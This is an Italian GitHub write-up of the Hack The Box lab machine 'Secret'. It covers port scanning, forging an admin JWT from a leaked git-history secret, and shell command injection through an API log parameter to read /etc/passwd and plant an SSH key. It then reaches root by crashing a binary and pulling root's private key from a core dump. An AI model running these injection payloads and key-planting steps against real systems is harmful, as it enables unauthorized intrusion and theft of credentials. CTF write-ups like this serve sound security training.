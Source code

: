 # HTB-Secret-WriteUp
Write Up of HTB machine: Secret, made public on 02/04/2022

Prima di poter connettersi ad una macchina di HTB è necessario scaricare il certificato della VPN dalla dashboard ed utilizzare OpenVPN:

**$openvpn [file.ovpn]**

![image](https://user-images.githubusercontent.com/65173648/150963493-27b74dcf-dc73-4008-952e-20b67bcf793f.png)

Effettuo lo scanning (fase in cui cerchiamo di raccogliere quante più informazioni possibili dall'host):

**$nmap -sS -p- -T4 -Pn -oA portScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964450-75c5a322-0788-4eea-85b4-93f372503525.png)

Effettuo l'enumeration (fase in cui cerchiamo di approndire le informazioni andando ad enumerare le porte trovare in fase di scansione):

**$nmap -sV -sC –p [porte trovate separate da virgola] -oA versionScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964922-e59aae36-22f5-4b6a-901e-a12fc41d63b6.png)

Si può notare, a prima vista, che sono presenti un web server su porta 80 e un'applicazione in Node.js su porta 3000, riportanti lo stesso titolo.

Applicazione Web:

![image](https://user-images.githubusercontent.com/65173648/150966584-c3ff72de-143a-469e-a062-19af3089a506.png)

Andando a spulciare il sito a mano e investigando nelle cartelle si notano dei path interessanti da approfondire. 

Utilizzo **gobuster** e mi salvo l'output dell'enumeration:

**$gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u [IP target] | tee WebEnumeration.txt**

![image](https://user-images.githubusercontent.com/65173648/150967244-a7e380ac-d6a0-42d9-8ec8-cae82fa97c08.png)

Uno dei path interessanti è **/api** (potenziale punto d'accesso alla macchina).

La sezione relativa alla documentazione dell'applicazione web presenta un esempio di login con "theadmin". Provo a creare un utente con le stesse credenziali ma non va a buon fine:

**$curl -i -X POST -H 'Content-Type: application/json' -d '{"name":"theadmin", "email":"drt@dasith.works", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

![image](https://user-images.githubusercontent.com/65173648/150968135-0f22d504-5734-4e5e-95d6-4d3c306383d0.png)

Decido di creare un utente personale e provare a bypassare la JWT validation dato che nel file routes/verifytoken.js è presente un algoritmo JWT non specificato:

(Se riesco a bypassare la JWT, da utente user potrei diventare admin.)

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"name":"m96dgHack", "email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

  
 ![image](https://user-images.githubusercontent.com/65173648/150968542-a24017bf-66d5-432d-9d0c-f06b4f17b31b.png)

Effettuo il login:

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/login**
  
  ![image](https://user-images.githubusercontent.com/65173648/150968638-7e7393da-04f2-4bc7-9bb9-8ae554e471e7.png)

Noto che mi viene generato un **AUTH-TOKEN** e me lo conservo.

All'interno delle cartelle c'è un file **.env** che fa riferimento ad un **TOKEN_SECRET**.

Utilizzando **jwt.io** si può notare come sia presente una voce "secret" in basso a destra, ossia un box dove inserire il token segreto dalla "history" della cartella **.git**. Il token secret del file .env non è quello giusto.

Seguire i comandi degli screen che seguono:

![image](https://user-images.githubusercontent.com/65173648/150969681-588a871c-28ba-43b6-a282-2c5c7d5b3bda.png)

![image](https://user-images.githubusercontent.com/65173648/150969704-33da6ee3-3d66-43fe-a881-d65dd8dabf66.png)

![image](https://user-images.githubusercontent.com/65173648/150969732-50fdf5ba-28e3-4c14-a68a-51123f33cdc0.png)

Conservare il TOKEN_SECRET ed utilizzarlo in combo con l'AUTH-TOKEN.

La combinazione **AUTH-TOKEN + TOKEN_SECRET** darà luogo al nuovo token decriptato da inserire per accedere come admin (prima, però, bisogna modificare il "name" da "m96dgHack" in "**theadmin**").

![image](https://user-images.githubusercontent.com/65173648/150970069-d94737c6-af0e-401a-ad78-305b3dd6d10b.png)

Arrivato a questo punto, mi incuriosisce sapere se posso effettivamente sfruttare le api sia come user sia come admin (utilizzo AUTH-TOKEN e token decriptato):

**$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoibTk2ZGdIYWNrIiwiZW1haWwiOiJtOTZkZ0BoYWNrLml0IiwiaWF0IjoxNjQxNjQzMDI5fQ.l8Abgxt-ECwkhofDuNU08KoUIPAvSY8E8IZkqXUdg6c' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971154-b2bbb366-ad32-4158-8158-b73e45fa89af.png)

  
 **$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971181-eff13e84-1a28-4f8e-874a-4a798b255a59.png)

Sfrutto le api per leggere il file di logs:

**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
  ' 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'**
  
 Noto l'utente "**dasith**" e provo ad accedere in ssh, ricordandomi le porte scansionate (porta **22** aperta).
 
 ![15 api_admin_dasith](https://user-images.githubusercontent.com/65173648/151326742-23c075b0-03d4-4753-a3ee-54e835c0bdb4.PNG)

 
 Creo una coppia di **chiavi ssh** e copio la mia chiave pubblica all'interno del server così da poter sfruttare la connessione in ssh:
 
 **$ssh-keygen -t rsa -f secret.htb -P ''**
 
 ![image](https://user-images.githubusercontent.com/65173648/150971755-ebbbeecd-b0dc-45ff-b667-a1a3581bb317.png)

![image](https://user-images.githubusercontent.com/65173648/150971768-7dbbe444-9f5b-489e-91eb-9e64a46c9d17.png)


**$export PUBLIC_KEY=$(cat secret.htb.pub)**
 
**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
' -G 'http://10.10.11.120/api/logs' --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys"**

![image](https://user-images.githubusercontent.com/65173648/150971800-84475b47-5ffd-4f71-8545-1804a76dbb5c.png)

Una volta loggato in ssh, ho ottenuto l'accesso come utente di sistema e ricavo la flag **user.txt**:

 ![extra_flag_user](https://user-images.githubusercontent.com/65173648/150972236-60828c9b-c848-46fd-9163-0456f942bf2b.PNG)


Ottenuta la user flag, procedo con la **privilege escalation** (fase in cui si sfrutta l'utente di sistema per accedere all'utente root con permessi di amministratore).

Cerco di sfruttare al meglio i path a cui può accedere l'user, e noto il path **/opt**, in cui sono presenti **3 file** interessanti (di cui 1 compilato).

Decido di runnare il file e provare ad accedere con i permessi di root:

![20_run_count](https://user-images.githubusercontent.com/65173648/150973629-7956f73a-f0c9-4bdf-995e-71375f97fc01.PNG)

Nulla di interessante!

Leggendo il file **valgrind.log** noto che c'è un riferimento alla memoria e decido di sfruttare il **Core Dump** (eseguo il programma e lo induco al crash):

![22_coredump_crash](https://user-images.githubusercontent.com/65173648/150974294-45be22c0-ea87-4679-a937-5ca3a270fced.PNG)

![23_sigsegv](https://user-images.githubusercontent.com/65173648/150974320-b7c989e2-6633-4ea1-91f9-861e5fa9c51c.PNG)


**$apport-unpack_opt_count.1000.crash /tmp/crash-report**

![24_reports](https://user-images.githubusercontent.com/65173648/150974637-1cbce728-01b3-47e3-9da8-0f5cb014e4eb.PNG)

Sfrutto **strings** per CoreDump:

![25_strings_coredump](https://user-images.githubusercontent.com/65173648/150974709-b202ed57-54dd-4d6b-98b3-18af75c4a9b7.PNG)

Dato che ottengo dei risultati importanti, decido di sfruttare lo stesso metodo con **/root/.ssh/id_rsa** e provare ad accedere alla chiave privata di root:

![26_crasf_for_idrsa](https://user-images.githubusercontent.com/65173648/150974882-372aeb35-7991-4782-b48c-61b1fdbdb83f.PNG)

E' possibile copiare la chiave privata di root dai risultati e provare ad accedere in ssh con essa:

![extra_root_user](https://user-images.githubusercontent.com/65173648/150975112-b57dbda8-cf9b-4915-8897-9aa899a811fe.PNG)

Ho trovato la **root.txt**!

Una volta che si inseriscono le due flag in HTB, il gioco è fatto!

![28_pwned](https://user-images.githubusercontent.com/65173648/150975209-def9973c-d6a4-4a35-8763-4665c02dd33d.PNG)







